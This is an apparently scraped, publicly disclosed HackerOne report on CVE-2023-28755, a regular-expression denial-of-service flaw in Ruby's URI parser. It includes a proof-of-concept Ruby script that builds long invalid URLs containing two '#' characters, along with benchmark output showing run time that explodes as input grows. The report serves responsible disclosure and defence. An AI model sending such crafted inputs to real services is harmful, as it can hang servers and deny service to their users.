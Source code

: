 # CVE-2023-28755: ReDoS vulnerability in URI

## Report Details
- **Report ID**: 1944515
- **URL**: https://hackerone.com/reports/1944515
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-04-13T02:03:53.600Z
- **Disclosed**: 2023-04-26T16:34:34.061Z

## Reporter
- **Username**: dee-see
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Original report on the Ruby program: https://hackerone.com/reports/1444501
Advisort: https://www.ruby-lang.org/en/news/2023/03/28/redos-in-uri-cve-2023-28755/
NIST entry: https://nvd.nist.gov/vuln/detail/CVE-2023-28755
CVSS:  7.5 high `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H` as listed by NIST but frankly I disagree with the `UI:N` part, I won't mind the extra 2k if you go with NIST but it didn't feel right not to mention it :) I filed the report with the CVSS I think this should have

Copy of the original report:

## Summary

Hello team, I hope you're doing well! The `URI` parser mishandles invalid URLs that have two `#` characters. It does correctly identify that they're invalid, but the regex performs very poorly and execution time grows much faster than the string length.

I found this somewhat accidentally when fuzzing for something else. I'm not sure if you care about such issues but I figured I'd report it anyway. The length of the strings required to actually cause the process to hang are very long, but it's not really an issue when the user-controlled input is sent in a request body.

## Steps to reproduce

Run the following script

```ruby
require 'benchmark'
require 'uri'

def parse(n)
  URI('https://example.com/dir/' + 'a' * n + '/##.jpg')
  rescue URI::InvalidURIError
  # Invalid URI because of the two #
end

n = 50000
Benchmark.bm(7) do |x|
  x.report('Base length') { parse(n) }
  x.report('Length x2  ') { parse(n * 2) }
  x.report('Length x4  ') { parse(n * 4) }
  x.report('Length x8  ') { parse(n * 8) }
end
```

Here's the output on my machine

```plaintext
              user     system      total        real
Base length  1.086961   0.003059   1.090020 (  1.090500)
Length x2    4.415046   0.000000   4.415046 (  4.416986)
Length x4   22.021462   0.003294  22.024756 ( 22.042507)
Length x8  122.695223   0.006653 122.701876 (122.853669)
```

We can see the execution time is roughly quintuples when the string length only doubles.

Here's my Ruby version

```shell
$ ruby -v
ruby 3.1.0p0 (2021-12-25 revision fb4df44d16) [x86_64-linux]
```

## Impact

High resource consumption, reduced performance, denial of service

## Attachments
No attachments
